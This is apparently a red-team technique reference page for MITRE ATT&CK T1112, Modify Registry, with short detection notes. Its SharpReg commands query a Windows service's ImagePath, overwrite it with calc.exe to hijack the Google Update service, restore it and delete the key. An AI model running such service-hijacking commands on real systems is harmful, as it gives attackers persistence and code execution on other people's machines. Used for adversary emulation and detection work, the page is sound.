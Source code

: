  # [Modify Registry](https://attack.mitre.org/techniques/T1112/)

## Exploit Description:
Adversaries may interact with the Windows Registry to hide configuration information within Registry keys, remove information as part of cleaning up, or as part of other techniques to aid in persistence and execution.

## Exploit syntax:

```powershell
# Example of querying 

sharpreg query HKLM\SYSTEM\CurrentControlSet\services\gupdatem | poshgrep ImagePath 

# Here we change the key that we just queried above. We notated what it was before we make changes

sharpreg create HKLM\SYSTEM\CurrentControlSet\Services\gupdatem EXPAND_SZ ImagePath "C:\Windows\WinSxS\x86_microsoft-windows-calc_31bf3856ad364e35_10.0.14393.0_none_7b13d13279112b2e\calc.exe"

# If necessary, you may change the key back to its original state:

sharpreg create HKLM\SYSTEM\CurrentControlSet\Services\gupdatem EXPAND_SZ ImagePath "\"C:\Program Files\Google\Update\GoogleUpdate.exe\" /medsvc"

# Also possible to just outright delete a key

sharpreg delete HKLM\SYSTEM\CurrentControlSet\Services\gupdatem ImagePath

```

## Detection Technique:
* Investigate any reg command. Reg is for registry querying and manipulation
* Event ID 4657 is made when the registry is modified

## Resources
https://github.com/jnqpblc/SharpReg

https://malware.news/t/introducing-poshc2-v8-0/58825
